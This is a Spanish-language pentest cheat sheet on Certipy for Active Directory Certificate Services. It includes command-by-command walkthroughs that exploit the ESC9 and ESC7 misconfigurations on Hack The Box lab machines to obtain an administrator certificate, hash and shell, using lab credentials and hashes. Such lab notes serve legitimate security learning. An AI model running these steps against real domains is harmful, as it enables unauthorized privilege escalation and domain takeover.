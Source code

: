 # Certificate Authority & Common Name Enumeration with Certipy

Certipy es una herramienta poderosa para interactuar con Active Directory Certificate Services (AD CS). Permite enumerar, solicitar y gestionar certificados, además de identificar configuraciones vulnerables que pueden ser explotadas.

- [ESC9 ATTACK](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)
- [Hacktricks ESC-X](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-authority-access-control-esc7)

## Instalación
- Instalar con pipx: 
    ```bash
    pipx install certipy-ad
    ```

## Uso Básico
- Enumerar configuraciones vulnerables:
    ```bash
    certipy-ad find -u usuario@dominio.local -p contraseña -dc-ip 192.168.1.100 -vulnerable
    ```

## Comandos Principales

Certipy ofrece una amplia gama de comandos para interactuar con AD CS. A continuación, se presenta una tabla con los comandos más relevantes, sus descripciones, opciones clave y ejemplos prácticos:

| Comando   | Descripción                                                                 | Opciones Clave y Ejemplos                                                                                                                                                     |
|-----------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `find`    | Enumerar plantillas de certificados, CAs y configuraciones vulnerables.    | `-bloodhound`, `-enabled`, `-vulnerable`, `-dc-ip`. Ejemplo: `certipy-ad find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128 -vulnerable`                              |
| `req`     | Solicitar, recuperar y renovar certificados.                                | `-ca`, `-template`, `-upn`, `-dns`. Ejemplo: `certipy-ad req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User`              |
| `auth`    | Autenticar usando PKINIT Kerberos o Schannel con certificados.              | `-pfx`, `-no-save`, `-ptt`, `-dc-ip`. Ejemplo: `certipy-ad auth -pfx administrator.pfx -dc-ip 172.16.126.128`                                                               |
| `shadow`  | Gestionar Credenciales Shadow para toma de control de cuentas.             | `-account`, `-device-id`, `auto`. Ejemplo: `certipy-ad shadow auto -username John@corp.local -p Passw0rd -account Jane`                                                     |
| `forge`   | Crear Certificados Dorados usando una CA comprometida.                     | `-ca-pfx`, `-upn`, `-dns`, `-template`. Ejemplo: `certipy-ad forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'` |
| `cert`    | Trabajar con archivos PFX, descifrar y extraer certificados/claves.         | `-pfx`, `-password`, `-export`, `-nokey`. Ejemplo: `certipy-ad cert -pfx encrypted.pfx -password "a387a1a1-5276-4488-9877-4e90da7567a4" -export -out decrypted.pfx`         |
| `relay`   | Realizar relay NTLM a endpoints HTTP/RPC de AD CS para explotar vulnerabilidades. | `-target`, `-ca`, `-template`. Ejemplo: `certipy-ad relay -target 'http://ca.corp.local'`                                                                                   |
| `ca`      | Gestionar CA y certificados, incluyendo respaldos y adición de oficiales.  | `-backup`, `-add-officer`, `-enable-template`. Ejemplo: `certipy-ad ca -backup -ca 'corp-DC-CA' -username administrator@corp.local -hashes fc525c9683e8fe067095ba2ddc971889` |
| `template`| Gestionar plantillas de certificados, incluyendo cambios de configuración. | `-save-old`, `-configuration`. Ejemplo: `certipy-ad template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old`                                    |

## Ejemplo de Uso ESC9
A continuación, se describe un ejemplo detallado para identificar y explotar una vulnerabilidad ESC9 utilizando Certipy:

1. **Enumerar configuraciones vulnerables con hashes NTLM**:
    ```bash
    certipy-ad find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
    ```
    Este comando identificará posibles vulnerabilidades como `ESC9` o `ESC4`.

2. **Modificar el atributo `userPrincipalName`**:
    En el caso de `ESC9`, se puede reescribir el `userPrincipalName` de una cuenta comprometida para que coincida con el de `Administrator`:
    ```bash
    certipy-ad account update -dc-ip 10.10.11.41 -u management_svc -hashes :$HASH -user ca_operator -upn Administrator
    ```

3. **Solicitar un certificado con privilegios elevados**:
    Una vez modificado el `userPrincipalName`, se solicita un certificado para la cuenta comprometida:
    ```bash
    certipy-ad req -u ca_operator -hashes :$HASH -ca certified-DC01-CA -template CertifiedAuthentication -upn Administrator -dc-ip 10.10.11.41 -debug
    ```
    Esto generará un archivo `.pfx` para el usuario `Administrator`.

4. **Revertir el cambio en el `userPrincipalName`**:
    Es importante revertir el cambio para evitar conflictos al autenticar con el certificado generado:
    ```bash
    certipy-ad account update -dc-ip 10.10.11.41 -u management_svc -hashes :$HASH -user ca_operator -upn ca_operator@certified.htb
    ```

5. **Autenticar con el certificado generado**:
    Finalmente, se utiliza el archivo `.pfx` para autenticarse como `Administrator`:
    ```bash
    certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
    ```
    Esto proporcionará un hash NTLM del usuario `Administrator`.

Este flujo permite explotar la vulnerabilidad ESC9 para obtener acceso privilegiado en el entorno AD CS.
## Explotación de ESC7 con Certipy en la máquina Manager (HTB)

- [Fuente oficial - ESC7 en Certipy](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7)

**ESC7** es una vulnerabilidad que afecta a Active Directory Certificate Services (AD CS) cuando un usuario posee permisos peligrosos sobre una Autoridad Certificadora (CA). Si un usuario tiene permisos como `ManageCA` o `ManageCertificates`, puede abusar de esa configuración para emitir certificados arbitrarios, incluyendo certificados para cuentas de alto privilegio, como `Administrator`.

A continuación, se detalla un ejemplo práctico sobre cómo explotar esta vulnerabilidad usando la herramienta `certipy`.

---

### 🔎 Detección de ESC7

```bash
certipy-ad find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```

**Resultado relevante:**
```bash
[!] Vulnerabilities
  ESC7 : 'MANAGER.HTB\\Raven' has dangerous permissions
```

> Esto confirma que el usuario `Raven` tiene permisos como `ManageCA` sobre la CA `manager-DC01-CA`.

---

### ✅ Explotación de ESC7

#### 1. Añadir al usuario como "officer" de la CA
```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven \
  -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
Esto otorga permisos de `ManageCertificates`, necesarios para aprobar solicitudes manualmente.

#### 2. Habilitar plantilla vulnerable (SubCA)
```bash
certipy-ad ca -ca 'manager-DC01-CA' -enable-template 'SubCA' \
  -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

#### 3. (Opcional) Listar plantillas activas
```bash
certipy-ad ca -ca 'manager-DC01-CA' -list-templates \
  -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

#### 4. Solicitar un certificado como `administrator`
```bash
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' \
  -ca 'manager-DC01-CA' -template 'SubCA' \
  -upn administrator@manager.htb -target manager.htb
```
Esto falla con error `CERTSRV_E_TEMPLATE_DENIED`, pero genera un `Request ID` y guarda la clave privada.

#### 5. Volver a agregarse como officer (si fue revertido por el entorno)
```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven \
  -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

#### 6. Aprobar manualmente la solicitud usando el Request ID (ej. 19)
```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 19 \
  -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

#### 7. Descargar el certificado emitido
```bash
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' \
  -ca 'manager-DC01-CA' -retrieve 19
```
Esto genera `administrator.pfx`, un archivo que contiene el certificado y la clave privada.

---

### 🔑 Autenticación como Administrator

#### 1. Obtener TGT usando el certificado
```bash
certipy-ad auth -pfx administrator.pfx
```

Si da error de "Clock Skew":
```bash
sudo ntpdate -s manager.htb
```

Repetir:
```bash
certipy-ad auth -pfx administrator.pfx
```

#### 2. Acceder a la máquina con Evil-WinRM usando el hash obtenido
```bash
evil-winrm -i manager.htb -u administrator -H <hash_obtenido>
```